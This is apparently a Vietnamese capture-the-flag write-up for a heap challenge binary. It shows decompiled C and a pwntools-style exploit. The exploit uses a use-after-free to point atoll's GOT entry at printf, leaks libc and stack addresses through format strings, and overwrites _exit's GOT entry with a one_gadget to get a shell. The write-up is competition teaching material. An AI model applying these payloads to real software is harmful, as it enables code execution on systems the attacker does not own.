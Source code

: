 ```c 
__int64 read_long()
{
  char nptr[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  __read_chk(0LL, nptr, 16LL, 17LL);
  return atoll(nptr);
}
```
- atoll dữ liệu mình nhập vào, nếu đổi nó thành printf thì ta hoàn toàn có thể leak libc bằng FMT bug => tấn công GOT atoll thành printf

## Exploit
- ý tưởng đã có, giờ lợi dụng UAF của hàm reallocate để thay plt@atoll thành plt@printf 

```c 
add(0, 0x18, b'aaaa')
edit(0, 0 , b'')
edit(0, 0x18, p64(exe.got.atoll))
add(1, 0x18 , b'aaaa')
edit(1, 0x28, b'aaaa')
delete(1)
add(1, 0x18, p64(exe.plt.printf))
```

![image](https://github.com/gookoosss/CTF/assets/128712571/86c010d8-c748-4b4a-8be4-1b3989fe60fa)


- xong bước đầu r thì leak libc vs stack thoải mái thôi 

```c 
p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'Index:', b'%23$p')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x26b6b
print(hex(libc.address))
p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'Index:', b'%18$p')
stack = int(p.recvline()[:-1], 16)
print(hex(stack))
```

- có đầy đủ thứ ta cần rồi giờ tấn công GOT của thằng exit thành one_gadget là xong (đến đây rồi các bạn tự debug và ngẫm nha, cũng dễ hiểu thôi)

```c 
p.sendlineafter(b'choice: ', b'1')
payload  = f'%{exe.got._exit & 0xffff}c%18$hn'.encode()
p.sendlineafter(b'Index:', payload)
one_gadget = libc.address + 0xe2383
GDB()

for i in range(3):
    p.sendlineafter(b'choice: ', b'1')
    payload  = f'%{exe.got._exit + i * 2 & 0xffff}c%18$hn'.encode()
    p.sendlineafter(b'Index:', payload)
    p.sendlineafter(b'choice: ', b'1')
    payload  = f'%{one_gadget >> i * 16 & 0xffff}c%22$hn'.encode()
    p.sendlineafter(b'Index:', payload)

p.sendlineafter(b'choice: ', b'4')

p.interactive() 
```
